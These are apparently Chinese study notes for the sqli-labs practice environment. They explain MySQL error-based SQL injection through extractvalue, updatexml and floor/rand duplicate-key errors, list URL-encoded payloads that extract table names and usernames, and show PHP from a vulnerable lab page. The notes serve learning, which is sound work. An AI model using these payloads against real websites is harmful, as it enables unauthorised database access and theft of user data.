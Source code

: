 ```
在SQL注入攻击过程中，服务器开启了错误回显，页面会返回错误信息，利用报错函数获取数据库数据。

常用的MySQL报错函数

--xpath语法错误
extractvalue()	--查询节点内容，接收两个参数，报错位置在第二个参数
updatexml()		--修改查询到的内容，接收三个参数，报错位置在第二个参数
它们的第二个参数都要求是符合xpath语法的字符串
如果不满足要求则会报错，并且将查询结果放在报错信息里

--主键重复（duplicate entry）
floor()			--返回小于等于该值的最大整数
只要是count，rand()，group by 三个连用就会造成这种主键重复报错
```

[报错函数](https://blog.csdn.net/weixin_54217950/article/details/122938063)

**查表**

floor函数

```
or (select 1 from (select count(*),concat(0x7e,(),0x7e,floor(rand(0)*2))x from information_schema.tables group by x)a)--+
```

```
'or+(select+1+from+(select+count(*),concat(0x7e,(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+3,1),0x7e,floor(rand(0)*2))x+from+information_schema.tables+group+by+x)a)--+
```

extractvalue函数

```
'and+extractvalue(1,concat(0x7e,(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+3,1),0x7e))
```

updatexml函数

```
'and+updatexml(1,concat(0x7e,(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+3,1),0x7e),1)--+
```

查列

```
'and+updatexml(1,concat(0x7e,(select+username+from++users++limit+1,1),0x7e),1)--+
```

## less-18 UA 报错注入

```php
$uagent = $_SERVER['HTTP_USER_AGENT'];
        $IP = $_SERVER['REMOTE_ADDR'];
        echo "<br>";
        echo 'Your IP ADDRESS is: ' .$IP;
        echo "<br>";
        //echo 'Your User Agent is: ' .$uagent;
// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))
        {
        $uname = check_input($_POST['uname']);
        $passwd = check_input($_POST['passwd']);
        /*
        echo 'Your Your User name:'. $uname;
        echo "<br>";
        echo 'Your Password:'. $passwd;
```